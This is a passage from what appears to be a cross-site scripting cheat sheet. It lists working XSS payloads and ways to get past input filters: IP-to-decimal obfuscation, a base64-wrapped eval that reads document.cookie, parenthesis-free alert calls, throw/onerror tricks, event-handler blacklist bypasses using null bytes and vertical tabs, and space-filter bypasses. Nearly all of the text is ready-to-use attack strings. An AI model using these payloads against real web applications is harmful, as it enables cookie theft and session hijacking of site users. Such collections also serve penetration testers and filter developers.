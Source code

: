 Convert IP address into decimal format: IE. `http://192.168.1.1` == `http://3232235777`
http://www.geektools.com/cgi-bin/ipconv.cgi

```javascript
<script>eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))<script>
```

Base64 encoding your XSS payload with Linux command: IE. `echo -n "alert(document.cookie)" | base64` == `YWxlcnQoZG9jdW1lbnQuY29va2llKQ==`

### Bypass parenthesis for string

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

### Bypass parenthesis and semi colon

```javascript
// From @garethheyes
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

// From @terjanq
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

// From @cgvwzq
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```

### Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>

// Bypass onxxx= filter with a null byte/vertical tab
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />

// Bypass onxxx= filter with a '/'
<img src='1' onerror/=alert(0) />
```

### Bypass space filter

```javascript
// Bypass space filter with "/"
<img/src='1'/onerror=alert(0)>

// Bypass space filter with 0x0c/^L
<svgonload=alert(1)>

$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```
